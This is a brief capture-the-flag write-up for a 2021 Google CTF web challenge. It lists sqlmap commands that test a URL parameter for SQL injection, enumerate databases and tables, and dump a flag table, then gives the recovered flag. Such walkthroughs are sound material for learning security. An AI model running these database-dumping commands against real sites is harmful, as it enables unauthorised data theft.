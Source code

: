 > Reference: https://github.com/Dvd848/CTFs/blob/master/2021_GoogleCTF_BQ/14_Unknown_-_Prison_Cell.md

1. `sqlmap -u https://quotedb-web.2021.ctfcompetition.com/?id=4`

1. `sqlmap -u https://quotedb-web.2021.ctfcompetition.com/?id=4 --dbs`

1. `sqlmap -u https://quotedb-web.2021.ctfcompetition.com/?id=4 --tables -D quotedb`

1. `sqlmap -u https://quotedb-web.2021.ctfcompetition.com/?id=4 --dump -D quotedb -T flag`

> CTF{little_bobby_tables_we_call_him}
